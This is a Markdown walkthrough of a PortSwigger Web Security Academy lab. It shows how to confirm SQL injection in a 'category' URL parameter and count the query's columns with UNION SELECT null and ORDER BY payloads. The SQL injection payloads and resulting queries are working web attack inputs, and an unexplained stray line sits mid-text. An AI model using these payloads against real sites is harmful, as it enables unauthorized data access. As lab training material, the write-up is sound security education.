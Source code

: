# Write-up: SQL injection UNION attack, determining the number of columns returned by the query @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *SQL injection UNION attack, determining the number of columns returned by the query* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  
Python script (manual payload): [script_manual.py](script_manual.py)

## Lab description

![lab_description](img/lab_description.png)

## Query

The query used in the lab will look something like

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>'
```

## Steps

### Confirm injectable argument

The category-filtering works based on the URL argument `category`. First I need to confirm that this argument is injectable by creating an error.

The normal argument is, for example, `/filter?category=Accessories`. Start by injecting a single quote at the end: `/filter?category=Accessories'`.

--> This result in an Internal Server Error by the application as the SQL query is invalid now and will look like this, having an illegal single quote at the end:

// 📝 USE THE GIFT TAB

```sql
SELECT * FROM someTable WHERE category = 'Accessories''
```

Next, I try the good case by injecting something that results in a valid query: `/filter?category=Accessories%27%20or%201=1--`. This results in a query like this, returning all rows and commenting out the erroneous single quote and anything that might come after:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' or 1=1--'
```

It returns the full listing, basically the same content as if no filter was used. This is an indication that whatever would come afterward and is commented out does not interfere with the result.

### Count columns by UNION SELECT

In a UNION, the result sets need to contain the same number of columns. Injecting `' UNION (select null)--` will produce a server error.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null)--'
```

I use repeated calls, each time increasing the number of 'nulls'. The correct column count can be found by injecting `' UNION (select null, null, null)--`. Therefore, this query is valid:

```sql
SELECT * FROM someTable WHERE category = 'Accessories' UNION (select null, null, null)--'
```

Now I know there are three columns and the lab updates to

![success](img/success.png)

### Count columns by ORDER BY

An alternative way to count the columns is with `ORDER BY`. Injecting `' ORDER BY 1--` will order the results by the first column of the result. Incrementing the value leads to an internal server error when using `' ORDER BY 4--` as the database is instructed to order by a column that does not exist. Thus the correct number of columns is 3.

```sql
SELECT * FROM someTable WHERE category = 'Accessories' ORDER BY 3--
```
